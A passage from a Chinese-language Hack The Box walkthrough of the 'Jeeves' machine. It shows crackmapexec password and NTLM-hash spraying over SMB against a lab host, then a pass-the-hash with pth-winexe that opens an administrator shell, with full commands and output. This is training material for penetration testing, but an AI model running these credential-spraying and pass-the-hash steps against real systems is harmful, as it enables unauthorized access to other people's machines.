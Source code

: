 SMB         10.10.10.63     445    JEEVES           [-] Jeeves\administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\kohsuke:Password STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\kohsuke:12345 STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\kohsuke:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\kohsuke:pwndyouall! STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\kohsuke:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\kohsuke:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE
```

全军覆没了属于是

但是我们还有一个NTML哈希没有试

```
┌──(root💀kali)-[~/htb/Jeeves]
└─# crackmapexec smb 10.10.10.63 -u user.txt -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
^C

[*] Shutting down, please wait...
^CSMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\anonymous:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Michael321:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\admin:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\hackerman123:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\bob:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)

```

中了administrator

### pth

哈希传递，拿到administrator的shell
```
──(root💀kali)-[~/htb/Jeeves]
└─# pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

